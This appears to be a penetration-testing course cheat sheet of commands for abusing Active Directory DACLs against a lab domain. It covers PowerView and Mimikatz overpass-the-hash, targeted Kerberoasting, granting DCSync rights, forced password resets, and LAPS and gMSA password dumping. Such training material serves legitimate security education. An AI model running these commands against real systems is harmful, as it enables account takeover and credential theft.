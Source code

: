 ## Abusing DACLs from Windows

| `Command` | `Description` |
|-|-|
| `$userSID = ConvertTo-SID jose`  | Convert a username to SID with PowerView  |
| `Get-DomainObjectAcl -ResolveGUIDs -Identity <IDENTITY> \| ?{$_.SecurityIdentifier -eq $userSID}` | Get all ACE's for \<IDENTITY\> where the rights belongs to $userSID |
| `Set-DomainUserPassword -Identity jose -AccountPassword $((ConvertTo-SecureString 'NewPassword' -AsPlainText -Force)) -Verbose` | Perform a Password reset to Jose |
| `Get-DomainObject -Identity LAPS10 -Properties "ms-mcs-AdmPwd",name` | Read Computer LAPS Password using PowerView |
| `mimikatz.exe privilege::debug "sekurlsa::pth /user:user-dev$ /domain:inlanefreight.local /ntlm:58867088B44350772FEBDB1E3DAD7G40 /run:powershell.exe" exit` | Perform an Overpass-the-Hash (OtH) using Mimikatz |

---

## Abusing DACLs from Linux

| `Command` | `Description` |
|-|-|
| `python3 examples/dacledit.py -principal jose -target martha -dc-ip 10.129.205.81 inlanefreight.local/user:Password`  | Get all DACL for the target Martha where the principal who has rights is Jose |
| `python3 examples/dacledit.py -principal user -target jose -dc-ip 10.129.205.81 inlanefreight.local/user:Password -action write`  | Add User FullControl over the account Jose |
| `python3 targetedKerberoast.py -vv -d inlanefreight.local -u user -p Password --request-user martha --dc-ip 10.129.205.81 -o martha.txt` | Perform a targeted Kerberoasting Attack against martha and save the hash in martha.txt |
| `python3 examples/dacledit.py -principal user -target-dn dc=inlanefreight,dc=local -dc-ip 10.129.205.81 inlanefreight.local/user:Password -action write -rights DCSync`  | Modify DACL to add user DCSync rights |
| `hashcat -m 13100 martha.txt /usr/share/wordlists/rockyou.txt --force` | Attempt to crack the Kerberoastable hash |
| `net rpc group members 'Group Name' -U inlanefreight.local/user%Password -S 10.129.205.81`  | Query the group's membership |
| `net rpc group addmem 'Group Name' jose -U inlanefreight.local/user%Password -S 10.129.205.81`  | Add jose to group "Group Name" |
| `net rpc password jose NewPassword -U inlanefreight.local/user%Password -S 10.129.205.81`  | Perform a Password reset to Jose |
| `python3 laps.py -u user -p Password -l 10.129.205.81 -d inlanefreight.local` | Read All Computer LAPS Password using laps.py |
| `python3 gMSADumper.py -d inlanefreight.local -l 10.129.205.81 -u user -p Password`  | Read All gMSA Password using gMSADumper.py |
| `python3 examples/owneredit.py -new-owner user -target Jose -dc-ip 10.129.205.81 inlanefreight.local/user:Password -action write`  | Change ownership from Jose to user |